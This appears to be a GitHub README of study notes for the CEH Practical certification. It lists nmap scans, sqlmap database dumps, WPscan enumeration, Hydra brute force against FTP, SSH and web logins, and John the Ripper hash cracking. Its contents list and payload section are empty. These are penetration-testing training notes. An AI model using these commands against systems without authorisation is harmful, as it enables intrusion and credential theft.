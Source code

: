 I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.

## CEH Practical Contents:
1.
2.
3.
4.
5.
6.
7.
8.
9.
10
11.
12.
14.
15.

## Important Tools and Commands:
## Nmap:
  
  $nmap -sV -sC -O <IP>
  
  -iL = import txt  -oX = output   --top-ports 1000 = UDP 1000 scan   -sU = UDP scan   -sT = TCP scan 
  
## SQLmap:
  
  for url= -u    for txtfile= -r
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump

## WPscan:
  $ wpscan --url http://test.com --enumerate u --enumerate p
  
  $ wpscan --url http://test.com --usernames user.txt --passwords pass.txt
  
  Other Commands: --random-agent, 

## Hydra:
  
  FTP Bruteforce:
  
  $ hydra -l user -P passlist.txt ftp://IP

  SSH Bruteforce:
  
  $ hydra -l <username> -P <full path to pass> IP -t 4 ssh

  Post Web Form Bruteforce:
  
  for single word= -l, -p
  
  for txt file= -L, -P
  
  $ hydra -l <username> -P <wordlist> IP http-post-form "/loginUrl:username=^USER^&password=^PASS^:F=incorrect" -V

## John the Ripper
  
  $ john -format=raw-md5 hash.txt
  
  $ john -format=<hashformat> hash.txt
  
## SSH
  
  SSH connect:
  
  $ ssh <username>@IP
  
## FTP
  
  FTP Connect
  
  $ ftp IP

## SQL Injection Payloads:
